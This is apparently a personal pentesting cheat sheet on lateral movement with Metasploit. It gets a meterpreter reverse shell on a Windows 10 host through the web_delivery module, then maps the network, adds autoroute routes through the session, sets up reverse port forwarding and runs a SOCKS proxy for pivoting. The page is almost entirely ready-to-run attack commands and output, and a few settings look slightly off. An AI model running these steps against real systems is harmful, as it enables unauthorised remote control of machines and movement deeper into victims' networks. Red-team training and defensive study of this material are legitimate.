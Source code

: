 # lateral -movement

## metasploit

get a shell on windows 10 machine. here is an example:

On Kali:

```bash
msf6 > search web_delivery
msf6 > use 1
msf6 exploit(multi/script/web_delivery) > options
...
msf6 exploit(multi/script/web_delivery) > set lhost eth0
msf6 exploit(multi/script/web_delivery) > set lport 1337
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set target 2
msf6 exploit(multi/script/web_delivery) > exploit -j
```

On Windows:

```powershell
PS > <run whatever they tell you to run>
```

Back to Kali, enter session:

```bash
msf6 exploit(multi/script/web_delivery) > sessions
...
msf6 exploit(multi/script/web_delivery) > sessions -i 1
```

```bash
meterpreter > 
```

## basic network mapping using built-in windows commands

```
meterpreter > ipconfig
meterpreter > arp -a
```

## set up routes on metasploit

On msf5:

```bash
meterpreter > run autoroute -s <network-id/subnet>
```

```bash
meterpreter > run autoroute -p
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

On msf6:

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=<subnet> NETMASK=<netmask>
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=192.168.16.0 NETMASK=/24
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=print
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

## more advanced network mapping

## reverse port forwarding

```bash
meterpreter > portfwd add -R -p <local-listening-port> -l <port-to-forward-to> -L <IP-to-forward-to>  
```

```bash
meterpreter > portfwd add -R -p 1234 -l 443 -L 192.168.3.28
```

Run proxy server on Kali:

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set srvhost 9050
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > exploit -j
```

